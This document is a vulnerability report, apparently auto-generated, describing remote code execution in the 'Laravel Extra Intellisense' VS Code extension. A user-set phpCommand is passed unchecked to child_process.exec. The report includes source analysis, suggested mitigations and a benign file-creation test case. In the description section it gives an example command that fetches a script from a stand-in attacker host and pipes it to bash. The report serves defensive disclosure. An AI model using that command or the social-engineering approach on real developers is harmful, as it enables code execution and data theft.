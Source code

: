 ### Vulnerability List

#### 1. Remote Code Execution via `phpCommand` setting

- **Description:**
    1. An attacker social engineers a developer into installing the "Laravel Extra Intellisense" VS Code extension.
    2. The attacker persuades the developer to modify the `LaravelExtraIntellisense.phpCommand` setting in VS Code. For example, the attacker could suggest a seemingly harmless command for Docker or Laravel Sail integration but inject malicious code. A malicious example could be: `bash -c "curl attacker.com/malicious.sh | bash"`.
    3. The extension periodically or on-demand executes PHP code by utilizing the command specified in the `phpCommand` setting. This is done to gather autocompletion data for Laravel projects, such as routes, views, configurations, etc.
    4. When the extension executes, it replaces the `{code}` placeholder in the `phpCommand` with generated PHP code and then executes this command using `child_process.exec` in the `helpers.ts` file.
    5. If the `phpCommand` setting is maliciously crafted as described in step 2, the attacker's injected code (e.g., `curl attacker.com/malicious.sh | bash`) will be executed on the developer's machine with the privileges of the VS Code process, leading to Remote Code Execution.

- **Impact:**
    - **Critical:** Successful exploitation allows an attacker to execute arbitrary commands on the developer's machine. This could lead to:
        - Full control over the developer's workstation.
        - Theft of sensitive data, including code, credentials, and private keys.
        - Installation of malware, backdoors, or ransomware.
        - Compromise of the developer's development environment and potentially the projects they are working on.

- **Vulnerability Rank:** Critical

- **Currently Implemented Mitigations:**
    - **Security Note in `README.md`:** The `README.md` file contains a "Security Note" section that warns users about the extension running their Laravel application and suggests disabling the extension temporarily when writing sensitive code.
    ```markdown
    ## Security Note
    This extension runs your Laravel application automatically and periodically to get the information needed to provide autocomplete.

    So if you have any unknown errors in your log make sure the extension not causing it.

    Also if you writing any sensitive code in your service providers, disable the extension temporarily to prevent unwanted application executing.
    ```
    **This is not a technical mitigation** and relies on the developer reading and understanding the security implications, which is often insufficient.

- **Missing Mitigations:**
    - **Input Sanitization/Validation:** The extension lacks any sanitization or validation of the `phpCommand` setting. It should validate that the command is intended to execute PHP and potentially restrict the command to a safe list of executables or arguments.
    - **Warning on Malicious `phpCommand`:** VS Code should display a prominent warning to the user if the `phpCommand` setting is modified to a potentially dangerous command (e.g., containing shell operators like `|`, `;`, `&`, redirectors, or commands other than `php`).
    - **Principle of Least Privilege:** The extension should ideally not require executing arbitrary shell commands. If executing PHP code is necessary, it should be done in a safer way, possibly by directly using a PHP library within the extension's process instead of shelling out. Alternatively, if `phpCommand` is necessary for flexibility, it should be strictly controlled and secured.
    - **Restrict `phpCommand` scope:** The extension could restrict the `phpCommand` to only execute `php` interpreter and prevent execution of other commands like `bash`, `curl`, `wget`, etc.

- **Preconditions:**
    1. The developer has installed the "Laravel Extra Intellisense" VS Code extension.
    2. The developer is tricked into modifying the `LaravelExtraIntellisense.phpCommand` setting to a malicious command.
    3. The extension is activated and attempts to gather autocompletion data, triggering the execution of the malicious `phpCommand`.
    4. The developer has a Laravel project opened in VS Code workspace for the extension to be active.

- **Source Code Analysis:**
    1. **`helpers.ts` - `runPhp` function:** This function is responsible for executing PHP code.
    ```typescript
    static async runPhp(code: string, description: string|null = null) : Promise<string> {
        code = code.replace(/\"/g, "\\\"");
        if (['linux', 'openbsd', 'sunos', 'darwin'].some(unixPlatforms => os.platform().includes(unixPlatforms))) {
            code = code.replace(/\$/g, "\\$");
            code = code.replace(/\\\\'/g, '\\\\\\\\\'');
            code = code.replace(/\\\\"/g, '\\\\\\\\\"');
        }
        let commandTemplate = vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand') ?? "php -r \"{code}\""; // [VULNERABLE CODE]: Retrieves phpCommand from configuration without validation.
        let command = commandTemplate.replace("{code}", code); // [VULNERABLE CODE]: Replaces {code} with user-provided code, but commandTemplate itself can be malicious.
        let out = new Promise<string>(function (resolve, error) {
            if (description != null) {
                Helpers.outputChannel?.info("Laravel Extra Intellisense command started: " + description);
            }

            cp.exec(command, // [VULNERABLE CODE]: Executes the command using child_process.exec, which can execute arbitrary shell commands if 'command' is malicious.
                { cwd: vscode.workspace.workspaceFolders && vscode.workspace.workspaceFolders.length > 0 ? vscode.workspace.workspaceFolders[0].uri.fsPath : undefined },
                function (err, stdout, stderr) {
                    if (err == null) {
                        if (description != null) {
                            Helpers.outputChannel?.info("Laravel Extra Intellisense Resolved: " + description);
                        }
                        resolve(stdout);
                    } else {
                        const errorOutput = stderr.length > 0 ? stderr : stdout;
                        Helpers.outputChannel?.error("Laravel Extra Intellisense Error:\n " + (description ?? '') + '\n\n' + errorOutput);
                        Helpers.showErrorPopup();
                        error(errorOutput);
                    }
                }
            );
        });
        return out;
    }
    ```
    - The code retrieves the `phpCommand` setting using `vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand')`.
    - It then uses `commandTemplate.replace("{code}", code)` to construct the final command. Critically, **no validation or sanitization is performed on `commandTemplate`** itself, which comes directly from user configuration.
    - Finally, `cp.exec(command, ...)` executes the constructed command. If `command` is malicious, `cp.exec` will execute it as a shell command, leading to RCE.

    2. **`helpers.ts` - `runLaravel` function:** This function builds upon `runPhp` to execute Laravel-specific code. It essentially wraps PHP code to bootstrap the Laravel application and then calls `runPhp`. The vulnerability in `runPhp` is directly exploitable via `runLaravel` as well.

    3. **`*Provider.ts` files:** Files like `RouteProvider.ts`, `ViewProvider.ts`, `ConfigProvider.ts`, etc., use `Helpers.runLaravel()` to fetch data for autocompletion. This means any of these providers can trigger the RCE vulnerability if a malicious `phpCommand` is configured. For example, `ConfigProvider.ts`:
    ```typescript
    loadConfigs() {
        try {
            var self = this;
            Helpers.runLaravel("echo json_encode(config()->all());", "Configs") // [VULNERABLE FUNCTION CALL]: Calls runLaravel, which uses runPhp and is vulnerable.
                .then(function (result) {
                    var configs = JSON.parse(result);
                    self.configs = self.getConfigs(configs);
                });
        } catch (exception) {
            console.error(exception);
        }
    }
    ```

- **Security Test Case:**
    1. **Prerequisites:**
        - VS Code installed.
        - Laravel Extra Intellisense extension installed.
        - A Laravel project opened in VS Code.
        - Node.js and npm installed (for testing purposes, not required for the vulnerability itself).
    2. **Setup Malicious `phpCommand`:**
        - In VS Code, go to File > Preferences > Settings (or Code > Settings on macOS).
        - Search for "Laravel Extra Intellisense phpCommand".
        - Modify the `phpCommand` setting to the following malicious command:
          ```json
          "LaravelExtraIntellisense.phpCommand": "bash -c 'touch /tmp/rce_vulnerability_test'"
          ```
          This command will attempt to create a file named `rce_vulnerability_test` in the `/tmp/` directory when executed on Linux/macOS. For Windows, you could use `cmd /c "type nul > %TEMP%\\rce_vulnerability_test"`.
    3. **Trigger Extension Activity:**
        - Open any PHP or Blade file within the Laravel project in VS Code.
        - Trigger autocompletion by typing `config('` or `route('` or `view('`. This should force the extension to run `Helpers.runLaravel()` to fetch autocompletion data.
    4. **Verify RCE:**
        - **Linux/macOS:** Open a terminal and check if the file `/tmp/rce_vulnerability_test` exists using `ls /tmp/rce_vulnerability_test`. If the file exists, the RCE is successful.
        - **Windows:** Open a command prompt and check if the file `%TEMP%\rce_vulnerability_test` exists.
    5. **Expected Result:** The file `rce_vulnerability_test` should be created in the respective temporary directory, demonstrating that arbitrary commands from the `phpCommand` setting can be executed by the extension.

This security test case proves that a malicious user who can manipulate the `phpCommand` setting can achieve Remote Code Execution on the developer's machine.
